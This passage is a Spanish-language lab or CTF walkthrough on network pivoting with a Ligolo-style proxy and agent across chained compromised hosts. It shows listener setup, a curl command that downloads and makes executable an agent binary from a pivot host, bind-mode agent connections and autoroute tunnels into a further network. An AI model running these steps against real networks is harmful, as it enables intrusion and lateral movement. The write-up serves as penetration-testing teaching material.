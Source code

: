 ```bash
[Agent : cerbero@b4fc92f8d22b] » listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000
INFO[0287] Listener 0 created on remote agent!
```

Y nos descargamos el **agent** y le damos permisos de ejecución:

```bash
megalodon@1f0e1fcaf473:~$ curl http://20.20.20.2:8000/agent -O && chmod +x agent
```

Ahora tenemos que hacer lo mismo para poder conectarnos al proxy en nuestra máquina. Hacemos **port forwarding** del puerto **11601** que es donde está a la escucha nuestro **proxy**:

```bash
[Agent : cerbero@b4fc92f8d22b] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601
INFO[0361] Listener 1 created on remote agent!
```

Esta vez en vez de conectar el agente al proxy vamos a hacer en el sentido contrario. Poner a la escucha el agente y conectarnos desde el proxy. Ponemo el agente a la escucha con el argumento `bind` y la `IP` y el `puerto` donde estará a la escucha:

```bash
megalodon@143546c5c4b6:~$ ./agent -bind 0.0.0.0:7777
WARN[0000] TLS Certificate fingerprint is: 290A01EDAAA2C994292BF2409288C32851752B9D2C493F32AC4F03C9F507DB76 
INFO[0000] Listening on 0.0.0.0:7777...                 
```

Ahora desde el proxy nos conectamos a Poseidon y elegimos la nueva sesión:

```bash
[Agent : cerbero@b4fc92f8d22b] » connect_agent --ip 20.20.20.3:7777
? TLS Certificate Fingerprint is: 290A01EDAAA2C994292BF2409288C32851752B9D2C493F32AC4F03C9F507DB76, connect? Yes
INFO[0999] Agent connected.                              name=megalodon@143546c5c4b6 remote="20.20.20.3:7777"
[Agent : cerbero@b4fc92f8d22b] » session 
? Specify a session : 2 - megalodon@143546c5c4b6 - 20.20.20.3:7777 - 34cad36b-0a5a-49eb-9314-2dd105235253[Agent : megalodon@143546c5c4b6] »  
```

En el agente vemos que la conexión ha sido establecida:

```bash
INFO[0005] Got connection from: 20.20.20.2:47572        
INFO[0005] Connection established                        addr="20.20.20.2:47572"
```

Volvemos al proxy y hacemos otro **autoroute** a la última red, le decimos que nos cree una interfaz nueva y que abra el túnel:

```bash
[Agent : megalodon@143546c5c4b6] » autoroute 
? Select routes to add: 30.30.30.2/24? Create a new interface or use an existing one? Create a new interface
INFO[1125] Generating a random interface name...        
INFO[1125] Creating a new "guidedpenance" interface...  
INFO[1125] Using interface guidedpenance, creating routes... 
INFO[1125] Route 30.30.30.2/24 created.                 
? Start the tunnel? Yes
[Agent : megalodon@143546c5c4b6] » INFO[1127] Starting tunnel to megalodon@143546c5c4b6    
[Agent : megalodon@143546c5c4b6] » 
```
